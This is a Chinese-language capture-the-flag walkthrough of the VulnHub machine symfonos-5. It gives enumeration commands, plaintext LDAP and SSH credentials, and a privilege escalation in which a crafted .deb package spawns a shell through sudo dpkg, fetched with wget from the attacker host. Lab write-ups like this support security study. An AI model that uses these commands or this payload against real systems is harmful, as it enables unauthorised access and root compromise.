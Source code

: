 # symfonos-5

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-4（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/symfonos-5,415/

## Let's go

```
nmap -A 192.168.253.141
```

![](./img/symfonos5-01.png)

> **浏览网页无发现，进行枚举**

```
dirsearch -u http://192.168.253.141 -E
```

![](./img/symfonos5-02.png)

![](./img/symfonos5-03.png)

> **尝试直接访问 home.php 发现主页的源代码**

![](./img/symfonos5-04.png)

![](./img/symfonos5-05.png)

> **得到 ldap 的用户名和密码，使用nmap进行脚本扫描**

![](./img/symfonos5-06.png)

```
nmap -p 389 --script ldap-search --script-args "ldap.password='qMDdyZh3cT6eeAWD',ldap.username='cn=admin,dc=symfonos,dc=local'" 192.168.253.141
```

![](./img/symfonos5-07.png)

```
ssh zeus@192.168.253.141
password:cetkKf4wCuHC9FET
```

![](./img/symfonos5-08.png)

```
sudo -l
```

![](./img/symfonos5-09.png)

> **参考这里 https://gtfobins.github.io/gtfobins/dpkg/**

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```

![](./img/symfonos5-10.png)

```
wget http://192.168.253.136/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![](./img/symfonos5-11.png)

```
cd
cat proof.txt
```

![](./img/symfonos5-12.png)